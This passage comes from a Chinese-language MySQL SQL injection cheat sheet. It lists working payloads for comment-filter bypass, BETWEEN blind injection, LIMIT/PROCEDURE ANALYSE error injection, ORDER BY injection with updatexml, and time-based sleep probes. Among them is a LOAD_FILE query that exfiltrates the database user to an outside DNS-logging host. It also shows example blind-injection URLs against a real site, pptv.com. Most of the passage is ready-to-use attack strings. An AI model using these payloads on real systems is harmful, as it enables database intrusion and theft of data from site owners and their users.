 SELECT LOAD_FILE(CONCAT('\\\\',(SELECT hex(user())),'.mysql.ip.port.ukg4ig.ceye.io\\abc'));<br /> <br /> 
<a name="nDNLR"></a>
## 奇葩注入方式
<a name="irhJt"></a>
### **(2)如果屏蔽了注释符**
用‘1‘ = ’1代替注释符即可绕过<br />php?page=4&cid=1' and 1=1 and '1'='1<br /> 
<a name="A340k"></a>
### **(2)**between注入
实战很罕见，但偶尔还真的能用得上<br />主要用于盲注看页面是否有变化，原理如下，例如username的字符内容是test1，第一个字符是t，a到b搜索不了，页面不正常。 a到t就有了，页面正常<br />![](https://cdn.nlark.com/yuque/0/2020/png/1345801/1587974215230-ccfbd2eb-502b-4495-b17b-0bbd2d7d2bef.png#height=228&id=oWjp5&originHeight=228&originWidth=692&originalType=binary&ratio=1&status=done&style=none&width=692)<br /> 
<a name="pxEpH"></a>
### **(2)**Limit注入
原理如下<br /> mysql> select id from users order by id desc limit 0,1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1);ERROR 1105 (HY000): XPATH syntax error: ':5.5.53'<br /> <br />![](https://cdn.nlark.com/yuque/0/2020/png/1345801/1587974215396-b51bef50-b1cb-43a5-9006-f9a73006916f.png#height=280&id=Abfrx&originHeight=280&originWidth=636&originalType=binary&ratio=1&status=done&style=none&width=636)<br /> <br />实战例子：<br />参数后and 1=2 判断，出现如红框所示and 1=2，1<br />![](https://cdn.nlark.com/yuque/0/2020/png/1345801/1587974215541-98cde5c9-f471-4dc4-93b9-80724558cb41.png#height=80&id=JeZlu&originHeight=130&originWidth=1210&originalType=binary&ratio=1&status=done&style=none&width=746)<br />构造payload<br /> index.php?start=0 procedure analyse(extractvalue(rand(),concat(0x3a,database())),2)--+<br />![](https://cdn.nlark.com/yuque/0/2020/png/1345801/1587974215792-9161edcf-69b1-4d1c-890b-ec576a30eee1.png#height=63&id=ZTPY6&originHeight=75&originWidth=890&originalType=binary&ratio=1&status=done&style=none&width=746)<br /> 
<a name="jMp1W"></a>
### **(2)**Orderby注入
当页面出现mysql报错信息时，注入点在 order by后面，此时可以利用报错信息进行注入。<br />原理如下图<br />![](https://cdn.nlark.com/yuque/0/2020/png/1345801/1587974215902-5f9e70ee-f0ad-4909-9c0f-0da72b6951fc.png#height=337&id=mpGG6&originHeight=337&originWidth=333&originalType=binary&ratio=1&status=done&style=none&width=333)<br />其中select * from users order by id desc;的desc是可控的传参值。<br />可构造payload： select * from users order by id and(updatexml(1,concat(0x7e,(select database())),0));<br />也可以接上 if(1=1,id,username);<br /> <br />乌云案例：<br />[https://www.uedbox.com/post/10853/](https://www.uedbox.com/post/10853/)<br /> <br />![](https://cdn.nlark.com/yuque/0/2020/png/1345801/1587974216049-14c824dd-2c01-4b94-b455-c1c844381eab.png#height=269&id=GlBsa&originHeight=411&originWidth=1139&originalType=binary&ratio=1&status=done&style=none&width=746)<br /> <br />[https://www.cnblogs.com/icez/p/Mysql-Order-By-Injection-Summary.html](https://www.cnblogs.com/icez/p/Mysql-Order-By-Injection-Summary.html)<br />[http://www.pptv.com/?t=ing&sort=join_cnt,if((4>3),1,(select](http://www.pptv.com/?t=ing&sort=join_cnt,if((4%3E3),1,(select) 1 from information_schema.tables)) <br />正常<br />[http://www.pptv.com/?t=ing&sort=join_cnt,if((4>5),1,(select](http://www.pptv.com/?t=ing&sort=join_cnt,if((4%3E5),1,(select) 1 from information_schema.tables))<br />不正常<br />[http://www.pptv.com/?t=ing&sort=join_cnt,if((ascii(mid(version(),1,1))>52),1,(select](http://www.pptv.com/?t=ing&sort=join_cnt,if((ascii(mid(version(),1,1))%3E52),1,(select) 1 from information_schema.tables))<br />正常<br />[http://www.pptv.com/?t=ing&sort=join_cnt,if((ascii(mid(version(),1,1))>53),1,(select](http://www.pptv.com/?t=ing&sort=join_cnt,if((ascii(mid(version(),1,1))%3E53),1,(select) 1 from information_schema.tables))<br />不正常数据库版本的第一个字符的ascii为53，为数字5<br />---------------------------------------------------<br />语句    order by 后id 直接注入，如下的sort接口后的id直接插payload<br /> (select 1 from(select 1 and if(ascii(substr((user()),1,1))=114,sleep(5),1))x)<br />![](https://cdn.nlark.com/yuque/0/2020/png/1345801/1587974216193-2b48afd9-996e-416b-9f8c-e053c10fffc3.png#height=396&id=kebYk&originHeight=517&originWidth=974&originalType=binary&ratio=1&status=done&style=none&width=746)
<a name="95AfO"></a>
## Mysql注入bypass